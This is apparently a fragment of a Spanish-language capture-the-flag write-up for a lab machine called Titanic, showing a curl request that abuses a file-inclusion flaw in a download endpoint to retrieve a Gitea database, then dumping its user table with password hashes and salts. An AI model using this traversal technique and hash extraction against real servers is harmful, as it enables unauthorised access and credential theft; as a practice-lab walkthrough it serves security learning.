 ![data.png](Images/data.png)

obtengo la base de datos `gitea.db` a traves de `LFI`:

```
curl 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' -o gitea.db
```

tabla user:

```
sqlite3 gitea.db
```

```
sqlite> .tables
<...snip...>
language_stat              user                     
<...snip...>
```

hashes:

```
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
```
